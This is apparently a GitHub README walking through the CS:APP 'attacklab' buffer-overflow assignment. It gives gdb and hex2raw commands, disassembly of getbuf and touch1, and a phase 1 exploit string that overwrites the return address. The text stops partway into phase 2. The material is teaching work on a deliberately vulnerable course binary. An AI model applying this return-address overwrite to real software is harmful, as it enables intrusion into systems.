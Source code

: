 # attacklab

### Table of contents

* [File Introduction](#file)
* [Commands](#commands)
* [Part I: Code Injection Attacks](#part1)
  * [phase 1](#phase1)
  * [phase 2](#phase2)
  * [phase 3](#phase3)

<h2 id = "file">File introduction</h2>

README.txt: A file describing the contents of the directory

ctarget: An executable program vulnerable to code-injection attacks

rtarget: An executable program vulnerable to return-oriented-programming attacks

cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.

farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
	     programming attacks.

hex2raw: A utility to generate attack strings.

```c
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

Functions Gets() and gets() have no way to determine whether their destination buffers are large
enough to store the string they read. They simply copy sequences of bytes, possibly overrunning the bounds of the storage allocated at the destinations.

The exploit string must not contain byte value 0x0a at any intermediate position, since this is the
ASCII code for newline (‘\n’). When Gets encounters this byte, it will assume you intended to
terminate the string.

HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to
create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef
you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte
ordering).

<h3 id = "commands">Commands</h3>

#### Using HEX2RAW

```shell
unix> ./hex2raw < exploit.txt > exploit-raw.txt          # store the raw string in a file
```

#### Using GDB

```
unix> gdb ctarget                                        # use gdb to run ctarget
(gdb) run < exploit-raw.txt -q                           # add -q to run locally
(gdb) print <variable>                                   # print the value of the variable
(gdb) break *<addr>                                      # set break point
(gdb) x/<n/f/u> <addr>                                   # print the value stored at the address
```

More usages can be found in [gdb-ref](./gdb-ref.md)

#### Generating byte codes

```shell
unix> gcc -c example.s
unix> objdump -d example.o
```

<h3 id = "part1">Part I: Code Injection Attacks</h3>

>For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that
>the stack positions will be consistent from one run to the next and so that data on the stack can be treated as executable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

<h4 id = "phase1">Phase 1</h4>

Function getbuf is called within CTARGET by a function test having the following C code:

```c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

When getbuf executes its return statement (line 5 of getbuf), the program ordinarily resumes execution
within function test (at line 5 of this function). We want to change this behavior. Within the file ctarget,
there is code for a function touch1 having the following C representation:

```c
void touch1(){
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

Our task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test. We can overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. 

Run ctarget executable in gdb and set a breakpoint at getbuf 

```shell
gdb ctarget
(gdb) break getbuf
(gdb) run -q
```

Then disasemble the getbuf function 

```
(gdb) disas
```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out. 

```
Dump of assembler code for function getbuf:
=> 0x000055555555594f <+0>:	sub    $0x18,%rsp
   0x0000555555555953 <+4>:	mov    %rsp,%rdi
   0x0000555555555956 <+7>:	callq  0x555555555b9f <Gets>
   0x000055555555595b <+12>:	mov    $0x1,%eax
   0x0000555555555960 <+17>:	add    $0x18,%rsp
   0x0000555555555964 <+21>:	retq   
End of assembler dump.
```

The codes ` sub $0x18,%rsp`  indicates that 24(0x18) bytes of buffer is allocated for getbuf. So we need to input 24 bytes of padding followed by the return address of the touch1. 

To find the address the touch1, we need to get the disassembled code.

```
(gdb) dissassemble touch1
```

 Then we get codes which looked like

```
Dump of assembler code for function touch1:
   0x0000555555555965 <+0>:	sub    $0x8,%rsp
   0x0000555555555969 <+4>:	movl   $0x1,0x202b69(%rip)        # 0x5555557584dc <vlevel>
   0x0000555555555973 <+14>:	lea    0x178d(%rip),%rdi        # 0x555555557107
   0x000055555555597a <+21>:	callq  0x555555554de0 <puts@plt>
   0x000055555555597f <+26>:	mov    $0x1,%edi
   0x0000555555555984 <+31>:	callq  0x555555555db6 <validate>
   0x0000555555555989 <+36>:	mov    $0x0,%edi
   0x000055555555598e <+41>:	callq  0x555555554f60 <exit@plt>
End of assembler dump.
```

So it's address is at `0x555555555965` 

We can also use `p touch1`  to get its address

```
(gdb) p touch
$1 = {void ()} 0x555555555965 <touch1>
```

Finally create a text file named atk1.txt which will look like below

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    /* the first 24 padding bytes */
65 59 55 55 55 55 00 00    /* address of touch1 */
```

When writing the bytes, we need to consider the byte order. My system is a little-endian so the bytes go in reverse order.  

Now run this file through the program hex2raw, which  generates raw exploit strings , and run the raw file

```shell
./hex2raw < atk1.txt > atk1r.txt

./ctarget < atk1r.txt             # use I/O redirection

unix> gdb ctarget                 # within GDB
(gdb) run < atk1r.txt
```

We can get something like below if our solution is right

```shell
Cookie: 0x5f5bd74e                # your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

<h4 id = "phase2">Phase 2</h4>

Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file ctarget there is code for a function touch2 having the following C representation:

```c
void touch2(unsigned val){
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

Our task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,
however, we must make it appear to touch2 as if we have passed your cookie as its argument.

As what we did in phase1, we need to run ctarget executable in gdb and set a breakpoint at getbuf and get the disassembled code of touch2

```
(gdb) dissassemble touch2
Dump of assembler code for function touch2:
   0x0000555555555993 <+0>:	sub    $0x8,%rsp
   0x0000555555555997 <+4>:	mov    %edi,%esi
   0x0000555555555999 <+6>:	movl   $0x2,0x202b39(%rip)        # 0x5555557584dc <vlevel>
   0x00005555555559a3 <+16>:	cmp    %edi,0x202b3b(%rip)        # 0x5555557584e4 <cookie>
   0x00005555555559a9 <+22>:	je     0x5555555559d0 <touch2+61>
   0x00005555555559ab <+24>:	lea    0x17a6(%rip),%rdi        # 0x555555557158
   0x00005555555559b2 <+31>:	mov    $0x0,%eax
   0x00005555555559b7 <+36>:	callq  0x555555554e10 <printf@plt>
   0x00005555555559bc <+41>:	mov    $0x2,%edi
   0x00005555555559c1 <+46>:	callq  0x555555555e74 <fail>
   0x00005555555559c6 <+51>:	mov    $0x0,%edi
   0x00005555555559cb <+56>:	callq  0x555555554f60 <exit@plt>
   0x00005555555559d0 <+61>:	lea    0x1759(%rip),%rdi        # 0x555555557130
   0x00005555555559d7 <+68>:	mov    $0x0,%eax
   0x00005555555559dc <+73>:	callq  0x555555554e10 <printf@plt>
   0x00005555555559e1 <+78>:	mov    $0x2,%edi
   0x00005555555559e6 <+83>:	callq  0x555555555db6 <validate>
   0x00005555555559eb <+88>:	jmp    0x5555555559c6 <touch2+51>
End of assembler dump.

```

